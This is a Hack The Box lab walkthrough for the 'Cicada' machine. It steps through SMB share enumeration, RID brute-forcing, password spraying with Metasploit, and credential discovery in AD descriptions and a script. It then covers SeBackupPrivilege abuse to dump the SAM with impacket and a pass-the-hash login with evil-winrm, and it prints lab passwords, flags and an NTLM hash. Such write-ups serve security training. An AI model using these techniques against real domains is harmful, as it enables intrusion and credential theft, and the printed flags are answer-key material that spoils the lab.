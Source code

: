 # Cicada HTB Labs walkthrough

What is the name of the non-default SMB share that is readable with guest access on Cicada?

NMAP scan shows that smb port 445 is open and the question indicates that guest is accessible.
Using this I used SMBMap with the user guest to enumerate the shares, and this shows us that we have read access to "HR".
![SMBMap](<Screenshot 2025-03-09 220324.png>)

What is the name of the file found in the HR share?

Let's now enumerate the HR share using SMBMap
Using the -r flag in SMBMap allows us to see the name of the file which is:
"Notice from HR.txt"

Which user account is still using the company default password?

Using the --download "HR\Notice from HR.txt" we can see there is a new hire with the default password:
Cicada$M6Corpb*@Lp#nZp!8

We now need to find the account name.

lets use crackmapexec to try and find valid usernames
crackmapexec smb 10.10.11.35 -u 'guest' -p "" --rid-brute | grep "SidTypeUser"    

![Usernames](<Screenshot 2025-03-09 224323.png>)
Now we have valid usernames, lets try and crack the account using msfconsole scanner/smb/smb_login

set all the options and exploit
10.10.11.35:445       - 10.10.11.35:445 - Success: '.\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8'


Which user has left their password in Active Directory metadata?

Let's use our known user details to enumerate AD fields using credentialed crackmapexec
We find the following account david.orelious with the description
'Just in case I forget my password is aRt$Lp#7t*VQ!3' which seems like a password

What is the name of the PowerShell script located in the DEV share?

lets use david to enumerate and see if we can access "DEV"
After using SMBmap i see we now have read access to DEV
There is a backup_script.ps1 inside of Dev - this may hold credentials or other vital info
downloaded to machine

What is the emily.oscars user's password?

As expected, reading the script gives us emilt.oscars password
"Q!3@Lp#M6b*7t*Vt"

Submit the flag located in the emily.oscars user's home directory.

Using evilwin-rm I manage to connect to the machine using these credentials (Needed to add cicada.htb to hosts file and connect with cicada.htb using evil-winrm)
I traversed to desktop and found the flag:
a3fbf886d263e73beb7445106567cfa8

What dangerous privilege does the emily.oscar user have associated with their account?

i used the coommand whoami /priv to get their privs
![privs](<Screenshot 2025-03-09 230911.png>)

SEBackupPrivilege

What is the Administrator user's NTLM hash?

i found this walkthrough when searching about the privs
https://medium.com/@irfanbhat3/windows-privilege-escalation-through-sebackup-serestore-dd00604ce6b5

I traversed directory to programdata and followed the steps - however i used the download command rather than setting up a network share

then i used the following impacket command:
python3 /home/kali/impacket/examples/secretsdump.py -sam sam -system system LOCAL
providing me with the admin NTLM hash

Submit the flag located on the Administrator user's Desktop.

We can conduct a pass the hash to gain access with evil-winrm
evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341

once we have access we can go to the desktop and find the flag